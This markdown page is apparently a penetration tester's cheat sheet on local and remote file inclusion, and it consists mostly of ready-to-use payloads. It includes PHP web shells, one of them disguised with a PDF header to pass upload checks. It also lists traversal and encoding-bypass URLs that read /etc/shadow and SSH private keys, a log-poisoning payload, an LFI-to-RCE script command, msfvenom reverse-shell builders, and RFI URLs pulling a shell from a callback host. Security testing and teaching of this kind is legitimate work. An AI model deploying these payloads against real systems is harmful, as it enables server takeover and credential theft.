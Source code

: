 # File Inclusion    
[PayloadAllTheThings FI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)  
## Contents 
- [File Inclusion](#file-inclusion)
  * [Contents](#contents)
  * [Local File Inclusion](#local-file-inclusion)
    + [File Upload Pages](#file-upload-pages)
    + [LFI Testing](#lfi-testing)
    + [Interesting Files](#interesting-files)
    + [LFI to RCE via PHP Filters](#lfi-to-rce-via-php-filters)
  * [Remote File Inclusion](#remote-file-inclusion)
  * [Web Payloads](#web-payloads)
    + [Testing](#testing)

 
## Local File Inclusion 
[Local File Inclusion](http://resources.infosecinstitute.com/local-file-inclusion-code-execution/#gref)   
[Guide to LFI](http://www.securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html)    

Uses file inclusion to access files outside of the web root using relative or absolute file paths.      
Characters may be restricted or filtered - try URL encoding, double URL encoding, unicode / UTF-8 encoding.      
With LFI you may be able to view: config files, docs, source code, command history files, creds file, etc.          

### File Upload Pages
Bypass extension filtering: rename file to an allowed extension (ie .php to .php.pdf file)        
Bypass header check:    

    %PDF-1.4
    <?php system($_GET["cmd"]); ?>

### LFI Testing    
Check for client side scripts     
Use a [LFI wordlist](https://github.com/Karmaz95/crimson/blob/master/words/exp/LFI) to fuzz.     
More wordlists: [file inclusion Linux](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt) and [file inclusion Windows](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt)     

    http://example.com/index.php?page=../../../etc/passwd  
    http://example.com/index.php?page=../../../etc/passwd%00                  #PHP below v. 5.3.4 bypass
    http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00        # double encoding    
    http://example.com/index.php?page=....//....//etc/passwd
    http://example.com/index.php?page=..///////..////..//////etc/passwd
    http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
	
    /etc/passwd, etc.
    can you include a remote file?
    ?test=php://filter/convert.base64-encode/resource=/filepath      -> base64 encode /decode  
	
    http://example.labs/page.php?file=php://filter/resource=/etc/passwd             #php filter wrapper 
	
	
Vulnerable PHP functions

    include
    require
    include_once 
    require_once 
	
### Interesting Files 
Linux 

    /etc/passwd
    /etc/shadow
    /etc/issue
    /etc/group
    /etc/hostname
    /etc/ssh/ssh_config
    /etc/ssh/sshd_config
    /root/.ssh/id_rsa
    /root/.ssh/authorized_keys
    /home/user/.ssh/authorized_keys
    /home/user/.ssh/id_rsa

Windows 

    /boot.ini
    /autoexec.bat
    /windows/system32/drivers/etc/hosts
    /windows/repair/SAM

Log Poisoning 

	open: /log/apache2/access.log 
	send payload as user agent string: <?php system($_GET['cmd']); ?>    
	/log/apache2/access.log&cmd=id      

### LFI to RCE via PHP Filters        
If you think the input is being passed to a PHP include or require function.      
[Hacktricks LFI to RCE Using PHP Filters](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters), [More Reading](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)              	
Script: [lfi2rce_via_php_filters.py](https://github.com/lw8192/Red-Team-Rising/blob/main/Web/lfi2rce_via_php_filters.py)       
If you find an LFI at http://site.php/nav.php?include=       

    python3 lfi2rce_via_php_filters.py http://site.php/nav.php -p include -c pwd            

## Remote File Inclusion 
Turning LFI to RFI: https://l.avala.mp/?p=241
[Reference](https://sushant747.gitbooks.io/total-oscp-guide/content/remote_file_inclusion.html)     
https://github.com/synacktiv/php_filter_chain_generator   

## Web Payloads 

PHP

    <?php echo shell_exec($_GET['cmd']);?> 
    <?php system($_GET['cmd']);?>
    <?php passthru($_GET['cmd']);?>   
      
      
    msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
    cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

WAR

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

### Testing 

    http://example.com/index.php?page=http://callback.com/shell.txt
    http://example.com/index.php?page=http://callback.com/shell.txt%00
    http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt
